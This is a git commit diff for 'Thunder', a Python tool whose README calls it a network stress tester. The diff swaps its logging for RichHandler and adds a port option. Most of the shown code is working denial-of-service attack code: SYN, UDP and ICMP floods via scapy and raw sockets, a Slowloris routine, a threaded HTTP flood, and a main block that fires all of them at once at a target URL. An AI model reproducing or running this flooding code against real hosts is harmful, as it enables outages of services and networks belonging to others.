

Update README.md and enhance logging in main.py with RichHandler

diff --git a/src/main.py b/src/main.py
@@ -7,20 +7,22 @@ import random
 import time
 from urllib.parse import urlparse
 from colorama import Fore, init
-from tqdm import tqdm
-from proxy import get_proxies
 from banner import logo
 from scapy.all import IP, TCP, ICMP, UDP, send
 from uagents import get_random_uagent
 import logging
+from rich.logging import RichHandler
 
 init(autoreset=True)
 
 logging.basicConfig(
     level=logging.INFO,
     format='[%(asctime)s] %(levelname)s - %(message)s',
-    datefmt='%H:%M:%S'
+    datefmt='%H:%M:%S',
+    handlers=[RichHandler()]
 )
+
+log = logging.getLogger("rich")
 
 def parse_url(target_url):
     parsed = urlparse(target_url)
@@ -43,33 +45,33 @@ def build_packet(host, path):
     return packet.encode("utf-8")
 
 def syn_flood(target_ip, target_port, count=100):
-    logging.info(f"Starting SYN Flood attack on {target_ip}:{target_port} (count={count})")
+    log.info(f"Starting SYN Flood attack on {target_ip}:{target_port} (count={count})")
     for i in range(count):
         ip = IP(dst=target_ip)
         tcp = TCP(dport=target_port, flags='S')
         send(ip/tcp, verbose=0)
-        logging.info(f"SYN FLOOD - PACKET {i+1}/{count} sent")
-    logging.info(f"SYN Flood attack finished on {target_ip}:{target_port}")
+        log.info(f"SYN FLOOD - PACKET {i+1}/{count} sent")
+    log.info(f"SYN Flood attack finished on {target_ip}:{target_port}")
 
 def udp_flood(target_ip, target_port, count=100):
-    logging.info(f"Starting UDP Flood attack on {target_ip}:{target_port} (count={count})")
+    log.info(f"Starting UDP Flood attack on {target_ip}:{target_port} (count={count})")
     sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
     data = b'X' * 1024
     for i in range(count):
         sock.sendto(data, (target_ip, target_port))
-        logging.info(f"UDP FLOOD - PACKET {i+1}/{count} sent")
-    logging.info(f"UDP Flood attack finished on {target_ip}:{target_port}")
+        log.info(f"UDP FLOOD - PACKET {i+1}/{count} sent")
+    log.info(f"UDP Flood attack finished on {target_ip}:{target_port}")
 
 def icmp_flood(target_ip, count=100):
-    logging.info(f"Starting ICMP Flood attack on {target_ip} (count={count})")
+    log.info(f"Starting ICMP Flood attack on {target_ip} (count={count})")
     for i in range(count):
         packet = IP(dst=target_ip)/ICMP()
         send(packet, verbose=0)
-        logging.info(f"ICMP FLOOD - PACKET {i+1}/{count} sent")
-    logging.info(f"ICMP Flood attack finished on {target_ip}")
+        log.info(f"ICMP FLOOD - PACKET {i+1}/{count} sent")
+    log.info(f"ICMP Flood attack finished on {target_ip}")
 
 def slowloris_attack(target_host, target_port, num_sockets=50):
-    logging.info(f"Starting Slowloris attack on {target_host}:{target_port} (sockets={num_sockets})")
+    log.info(f"Starting Slowloris attack on {target_host}:{target_port} (sockets={num_sockets})")
     sockets = []
     for i in range(num_sockets):
         try:
@@ -79,9 +81,9 @@ def slowloris_attack(target_host, target_port, num_sockets=50):
             s.send(f"GET /?{i} HTTP/1.1\r\n".encode())
             s.send(f"Host: {target_host}\r\n".encode())
             sockets.append(s)
-            logging.info(f"SLOWLORIS - SOCKET {i+1}/{num_sockets} opened")
+            log.info(f"SLOWLORIS - SOCKET {i+1}/{num_sockets} opened")
         except:
-            logging.info(f"SLOWLORIS - Error opening socket {i+1}")
+            log.info(f"SLOWLORIS - Error opening socket {i+1}")
             pass
     try:
         pkt_count = 0
@@ -90,12 +92,12 @@ def slowloris_attack(target_host, target_port, num_sockets=50):
                 try:
                     s.send(b"X-a: b\r\n")
                     pkt_count += 1
-                    logging.info(f"SLOWLORIS - HEADER {pkt_count} sent")
+                    log.info(f"SLOWLORIS - HEADER {pkt_count} sent")
                 except:
                     sockets.remove(s)
             time.sleep(10)
     except KeyboardInterrupt:
-        logging.info(f"Slowloris attack stopped on {target_host}:{target_port}")
+        log.info(f"Slowloris attack stopped on {target_host}:{target_port}")
 
 def send_request(i, target_url, _):
     p = urlparse(target_url)
@@ -117,13 +119,13 @@ def send_request(i, target_url, _):
         line = resp.split(b"\r\n",1)[0]
         try:
             code = int(line.split()[1])
-            logging.info(f"HTTP FLOOD - CODE - HTTP {code}")
+            log.info(f"HTTP FLOOD - CODE - HTTP {code}")
             return code
         except:
-            logging.info(f"HTTP FLOOD - CODE - HTTP: {line.decode(errors='ignore')}")
+            log.info(f"HTTP FLOOD - CODE - HTTP: {line.decode(errors='ignore')}")
             return line.decode(errors="ignore")
     except Exception as e:
-        logging.info(f"HTTP FLOOD - ERROR: {e}")
+        log.info(f"HTTP FLOOD - ERROR: {e}")
         return str(e)
 
 def get_random_proxy(proxy_list):
@@ -132,71 +134,72 @@ def get_random_proxy(proxy_list):
     return None
 
 def run_http_flood(target_url, packages, threads):
-    logging.info(f"Starting HTTP Flood attack on {target_url} (packages={packages}, threads={threads})")
+    log.info(f"Starting HTTP Flood attack on {target_url} (packages={packages}, threads={threads})")
     with ThreadPoolExecutor(max_workers=threads) as executor:
         futures = {executor.submit(send_request, i, target_url, None): i for i in range(packages)}
         completed = 0
         for future in as_completed(futures):
             future.result()
             completed += 1
-            logging.info(f"HTTP FLOOD - {completed}/{packages} requests sent")
-    logging.info(f"HTTP Flood attack finished on {target_url}")
+            log.info(f"HTTP FLOOD - {completed}/{packages} requests sent")
+    log.info(f"HTTP Flood attack finished on {target_url}")
 
 def run_syn_flood(host, port, count, threads):
-    logging.info(f"SYN Flood attack started for {host}:{port} (count={count}, threads={threads})")
+    log.info(f"SYN Flood attack started for {host}:{port} (count={count}, threads={threads})")
     def syn_task(_):
         syn_flood(host, port, count // threads)
     with ThreadPoolExecutor(max_workers=threads) as executor:
         futures = [executor.submit(syn_task, i) for i in range(threads)]
         for i, future in enumerate(as_completed(futures), 1):
             future.result()
-            logging.info(f"SYN FLOOD - {i}/{threads} threads finished")
-    logging.info(f"SYN Flood attack finished for {host}:{port}")
+            log.info(f"SYN FLOOD - {i}/{threads} threads finished")
+    log.info(f"SYN Flood attack finished for {host}:{port}")
 
 def run_udp_flood(host, port, count, threads):
-    logging.info(f"UDP Flood attack started for {host}:{port} (count={count}, threads={threads})")
+    log.info(f"UDP Flood attack started for {host}:{port} (count={count}, threads={threads})")
     def udp_task(_):
         udp_flood(host, port, count // threads)
     with ThreadPoolExecutor(max_workers=threads) as executor:
         futures = [executor.submit(udp_task, i) for i in range(threads)]
         for i, future in enumerate(as_completed(futures), 1):
             future.result()
-            logging.info(f"UDP FLOOD - {i}/{threads} threads finished")
-    logging.info(f"UDP Flood attack finished for {host}:{port}")
+            log.info(f"UDP FLOOD - {i}/{threads} threads finished")
+    log.info(f"UDP Flood attack finished for {host}:{port}")
 
 def run_icmp_flood(host, count, threads):
-    logging.info(f"ICMP Flood attack started for {host} (count={count}, threads={threads})")
+    log.info(f"ICMP Flood attack started for {host} (count={count}, threads={threads})")
     def icmp_task(_):
         icmp_flood(host, count // threads)
     with ThreadPoolExecutor(max_workers=threads) as executor:
         futures = [executor.submit(icmp_task, i) for i in range(threads)]
         for i, future in enumerate(as_completed(futures), 1):
             future.result()
-            logging.info(f"ICMP FLOOD - {i}/{threads} threads finished")
-    logging.info(f"ICMP Flood attack finished for {host}")
+            log.info(f"ICMP FLOOD - {i}/{threads} threads finished")
+    log.info(f"ICMP Flood attack finished for {host}")
 
 def run_slowloris(host, port, sockets, threads):
-    logging.info(f"Slowloris attack started for {host}:{port} (sockets={sockets}, threads={threads})")
+    log.info(f"Slowloris attack started for {host}:{port} (sockets={sockets}, threads={threads})")
     def slowloris_task(_):
         slowloris_attack(host, port, sockets // threads)
     with ThreadPoolExecutor(max_workers=threads) as executor:
         futures = [executor.submit(slowloris_task, i) for i in range(threads)]
         for i, future in enumerate(as_completed(futures), 1):
             future.result()
-            logging.info(f"SLOWLORIS - {i}/{threads} threads finished")
-    logging.info(f"Slowloris attack finished for {host}:{port}")
+            log.info(f"SLOWLORIS - {i}/{threads} threads finished")
+    log.info(f"Slowloris attack finished for {host}:{port}")
 
 if __name__ == "__main__":
     logo()
     parser = argparse.ArgumentParser(description="Thunder (multi-attack)")
     parser.add_argument("target", help="Target url (http or https)")
-    parser.add_argument("-p", "--packages", help="Packages count", type=int, default=1000)
+    parser.add_argument("--port", help="Port", type=int, default=443)
+    parser.add_argument("-pkgs", "--packages", help="Packages count", type=int, default=1000)
     parser.add_argument("-t", "--threads", help="Threads count", type=int, default=10)
     args = parser.parse_args()
 
     p = urlparse(args.target)
     host = p.hostname
-    port = p.port or (443 if p.scheme=="https" else 80)
+    port = args.port
 
     attack_tasks = [
         (run_http_flood, (args.target, round(args.packages/5), args.threads)),
@@ -206,7 +209,7 @@ if __name__ == "__main__":
         (run_slowloris, (host, port, round(args.packages/5), args.threads)),
     ]
 
-    logging.info("Starting all attack tasks using ThreadPoolExecutor...")
+    log.info("Starting all attack tasks using ThreadPoolExecutor...")
     with ThreadPoolExecutor(max_workers=len(attack_tasks)) as executor:
         futures = []
         for func, args_tuple in attack_tasks:
@@ -214,7 +217,7 @@ if __name__ == "__main__":
         for i, future in enumerate(as_completed(futures), 1):
             try:
                 future.result()
-                logging.info(f"Attack task {i}/{len(attack_tasks)} finished")
+                log.info(f"Attack task {i}/{len(attack_tasks)} finished")
             except Exception as e:
-                logging.error(f"Attack task {i} raised an exception: {e}")
-    logging.info("All attacks finished.")
+                log.error(f"Attack task {i} raised an exception: {e}")
+    log.info("All attacks finished.")

diff --git a/README.md b/README.md
@@ -4,6 +4,11 @@
 
 Thunder is a multi-threaded network stress-testing tool for HTTP and network-layer attacks. It is designed for developers and security researchers to test the resilience of their own services. Thunder now supports simultaneous execution of multiple attack types and logs all progress and results via Python's logging module.
 
+
+![alt text](data/2.png)
+![alt text](data/3.png)
+![alt text](data/4.png)
+
 ## Features
 - Simultaneous execution of:
   - HTTP Flood (multi-threaded GET requests)
@@ -41,7 +46,6 @@ sudo python3 src/main.py https://example.com -p 10000 -t 20
 - Each attack runs in its own thread pool.
 - All progress and results are output via logging.
 - HTTP Flood uses randomized User-Agent for each request.
-
 
 ## Attack Types
 - **HTTP Flood**: Multi-threaded HTTP GET requests.
